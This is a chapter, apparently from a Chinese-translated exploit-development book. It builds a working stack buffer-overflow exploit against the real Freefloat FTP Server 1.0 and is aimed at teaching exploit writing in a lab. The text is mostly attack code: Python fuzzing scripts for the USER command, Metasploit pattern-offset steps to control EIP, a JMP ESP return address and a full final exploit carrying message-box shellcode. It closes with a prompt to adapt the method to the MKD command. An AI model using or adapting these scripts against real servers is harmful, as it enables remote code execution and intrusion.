




# 九、真实世界场景——第一部分

现在，我们将通过练习模糊、控制指令指针和使用真实目标注入 Shellcode 来重温这本书。我要做的是浏览[exploit-db.com](https://exploit-db.com/)并从中选择真正的目标。

# 自由浮动 FTP 服务器

让我们从 Freefloat FTP 服务器 v1.0 开始，您可以从这里下载：
[https://www.exploit-db.com/apps/687ef6f72dcbbf5b2506e80a375377fa-freefloatftpserver.zip](https://www.exploit-db.com/apps/687ef6f72dcbbf5b2506e80a375377fa-freefloatftpserver.zip) 。此外，您可以在[上看到 Windows XP 上的漏洞 https://www.exploit-db.com/exploits/40711/](https://www.exploit-db.com/exploits/40711/) 。

Freefloat FTP 服务器有许多易受攻击的参数，这些参数对练习非常有用，我们将在这里选择其中一个来进行完整练习：


现在我们从[下载 https://www.exploit-db.com/apps/687ef6f72dcbbf5b2506e80a375377fa-freefloatftpserver.zip](https://www.exploit-db.com/apps/687ef6f72dcbbf5b2506e80a375377fa-freefloatftpserver.zip) 在我们的 Windows 机器上并解压缩。现在，打开它的目录，然后打开 Win32，然后启动 FTP 服务器。它将显示在右上角的任务栏中。打开它以查看配置：


易受攻击的服务器正在端口`21`上启动并运行。让我们用`nc`从我们的攻击机器上确认一下。

首先，我们的受害者机器的 IP 地址是`192.168.129.128`：


然后从攻击机器执行以下命令：

```
$ nc 192.168.129.128 21 
```

在以下屏幕截图中可以看到前面命令的输出：


让我们尝试匿名访问：

```
$ USER anonymous
$ PASS anonymous
```

在以下屏幕截图中可以看到前面命令的输出：


我们进去了！如果我们专注于`USER`参数呢？

# 起毛

由于手动使用`nc`命令的方式效率不高，让我们使用 Python 语言构建一个脚本：

```
#!/usr/bin/python
import socket
import sys

junk = 

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+junk+'\r\n')
```

现在，让我们使用`USER`参数尝试模糊阶段。让我们从一个`junk`值`50`开始：

```
#!/usr/bin/python
import socket
import sys

junk = 'A'*50

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+junk+'\r\n')
```

从我们的受害者机器，让我们将 Freefloat FTP 服务器连接到免疫调试器中，并点击运行程序一次：


让我们注册一下内容：



然后，确保程序处于运行状态：


现在，让我们运行我们的漏洞，然后看看免疫调试器：

```
$ ./exploit.py
```

在以下屏幕截图中可以看到前面命令的输出：



什么也没发生！让我们将垃圾值增加到`200`：

```
#!/usr/bin/python
import socket
import sys

junk = 'A'*200

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+junk+'\r\n')
```

让我们重新运行此漏洞并观看免疫调试器：

```
$ ./exploit.py
```

在以下屏幕截图中可以看到前面命令的输出：


再一次什么也没发生；让我们增加到`500`：

```
#!/usr/bin/python
import socket
import sys

junk = 'A'*500

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+junk+'\r\n')
```

然后，运行漏洞利用：

```
$ ./exploit.py
```

在以下屏幕截图中可以看到前面命令的输出：


程序崩溃了！让我们来看看这些寄存器：


指令指针充满了我们的垃圾：


堆栈中也按预期填充了垃圾值，这将带我们进入下一阶段。

# 控制指令指针

在此阶段，我们将通过计算 EIP 寄存器的精确偏移量来控制指令指针。

让我们像以前一样，使用 Metasploit 框架创建模式：

```
$ cd /usr/share/metasploit-framework/tools/exploit/
$ ./pattern_create.rb -l 500
```

在以下屏幕截图中可以看到前面命令的输出：


这是我们的模式，因此漏洞应该如下所示：

```
#!/usr/bin/python
import socket
import sys

junk = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq'

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+junk+'\r\n')
```

关闭免疫调试器，重新运行 Freefloat FTP 服务器，并将其连接到免疫调试器。然后，点击 run 程序：

```
$ ./exploit.py
```

在以下屏幕截图中可以看到前面命令的输出：


EIP 内的当前模式为`37684136`：


我们的模式位于 EIP 内部；现在，让我们得到它的精确偏移量：

```
$ cd /usr/share/metasploit-framework/tools/exploit/
$ ./pattern_offset.rb -q 37684136 -l 500
```

在以下屏幕截图中可以看到前面命令的输出：


在偏移量`230`处；让我们确认一下：

```
#!/usr/bin/python
import socket
import sys

junk = 'A'*230
eip = 'B'*4
injection = junk+eip

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+injection+'\r\n')
```

关闭免疫调试器并与 Freefloat FTP 服务器一起再次启动，将其连接到免疫调试器中，然后点击运行程序。然后执行我们的攻击：

```
$ ./exploit.py
```

在以下屏幕截图中可以看到前面命令的输出：



另外，让我们看看寄存器：


`EIP`现在包含`42424242`；所以我们现在控制`EIP`。

让我们进入下一个阶段，即为 Shellcode 找到一个位置并注入它。

# 注入 Shellcode

让我们来看看另一种分析自由模式 FTP 服务器内部模式的方法：

```
#!/usr/bin/python
import socket
import sys

junk = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq'

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+junk+'\r\n')
```

让我们重新运行 Freefloat FTP 服务器，将其连接到免疫调试器，然后点击运行程序图标。然后，运行漏洞利用：

```
$ ./exploit.py
```

程序将再次崩溃；然后，从命令栏输入`!mona findmsp`：


根据 Rapid7 博客[https://blog.rapid7.com/2011/10/11/monasploit/](https://blog.rapid7.com/2011/10/11/monasploit/) ，`findmsp`命令执行以下操作：

*   在进程内存中的任何位置（普通或 unicode 扩展）查找循环模式的前 8 个字节。
*   查看所有寄存器，并列出指向模式的一部分或被模式的一部分覆盖的寄存器。如果寄存器指向模式，它将显示偏移量以及偏移量之后内存中模式的长度。
*   在堆栈上查找指向部分模式的指针（显示偏移量和长度）。
*   在堆栈上查找图案的瑕疵（显示偏移量和长度）。
*   查询 SEH 链并确定它是否被循环模式覆盖。

然后点击*进入*：


该分析告诉我们确切的偏移量，即`230`。它还告诉我们，保存 Shellcode 的最佳位置是堆栈内部，并且将使用 ESP 寄存器，因为没有任何模式从堆栈中取出。那么，让我们像以前一样继续。

我们的开发应该如下所示：


现在，让我们找到`JMP ESP`的地址：



然后，搜索`JMP ESP`：


现在我们需要在这里选择任何地址来执行跳转到 ESP。我将选择`75BE0690`。

对于 Shellcode，让我们选择其他小的东西；例如，让我们在[处尝试此 Shellcode https://www.exploit-db.com/exploits/40245/](https://www.exploit-db.com/exploits/40245/) ，在受害者的机器上生成一个消息框：

```
"\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x31\xdb\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x89\xd6\x89\xcf\x31\xdb\x53\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x51\xff\xd2\x83\xc4\x10\x31\xc9\x68\x6c\x6c\x42\x42\x88\x4c\x24\x02\x68\x33\x32\x2e\x64\x68\x75\x73\x65\x72\x54\xff\xd0\x83\xc4\x0c\x31\xc9\x68\x6f\x78\x41\x42\x88\x4c\x24\x03\x68\x61\x67\x65\x42\x68\x4d\x65\x73\x73\x54\x50\xff\xd6\x83\xc4\x0c\x31\xd2\x31\xc9\x52\x68\x73\x67\x21\x21\x68\x6c\x65\x20\x6d\x68\x53\x61\x6d\x70\x8d\x14\x24\x51\x68\x68\x65\x72\x65\x68\x68\x69\x20\x54\x8d\x0c\x24\x31\xdb\x43\x53\x52\x51\x31\xdb\x53\xff\xd0\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x8d\x0c\x24\x51\x57\xff\xd6\x31\xc9\x51\xff\xd0"
```

因此，我们的最终 Shellcode 应该如下所示：


让我们创建我们的最终利用：

```
#!/usr/bin/python
import socket
import sys

shellcode = "\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x31\xdb\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x89\xd6\x89\xcf\x31\xdb\x53\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x51\xff\xd2\x83\xc4\x10\x31\xc9\x68\x6c\x6c\x42\x42\x88\x4c\x24\x02\x68\x33\x32\x2e\x64\x68\x75\x73\x65\x72\x54\xff\xd0\x83\xc4\x0c\x31\xc9\x68\x6f\x78\x41\x42\x88\x4c\x24\x03\x68\x61\x67\x65\x42\x68\x4d\x65\x73\x73\x54\x50\xff\xd6\x83\xc4\x0c\x31\xd2\x31\xc9\x52\x68\x73\x67\x21\x21\x68\x6c\x65\x20\x6d\x68\x53\x61\x6d\x70\x8d\x14\x24\x51\x68\x68\x65\x72\x65\x68\x68\x69\x20\x54\x8d\x0c\x24\x31\xdb\x43\x53\x52\x51\x31\xdb\x53\xff\xd0\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x8d\x0c\x24\x51\x57\xff\xd6\x31\xc9\x51\xff\xd0";

junk = 'A'*230
eip = '\x90\x06\xbe\x75'
nops = '\x90'*10
injection = junk+eip+nops+shellcode

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER '+injection+'\r\n')
```

现在我们都准备好了；让我们重新运行 Freefloat FTP 服务器，然后运行我们的漏洞：

```
$ ./exploit.py
```

在以下屏幕截图中可以看到前面命令的输出：


我们的努力成功了！

# 一个例子

我想让你做的是尝试这个例子，但是使用一个不同的参数，例如，`MKD`参数，我将给你一个区块代码，开始：

```
#!/usr/bin/python
import socket
import sys

junk = ' '

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.129.128',21))
s.recv(1024)
s.send('USER anonymous\r\n')
s.recv(1024)
s.send('PASS anonymous\r\n')
s.recv(1024)
s.send('MKD' + junk +'\r\n')
s.recv(1024)
s.send('QUIT\r\n')
s.close()
```

这和这个场景一模一样，所以试着更具创造性。

# 总结

在这一章中，我们从模糊化开始做了一个真实完整的场景。然后我们研究了如何控制 EIP，然后注入并执行 Shellcode。

在下一章中，我们将使用一个真实的场景，但使用不同的方法，即拦截和模糊 HTTP 头中的参数。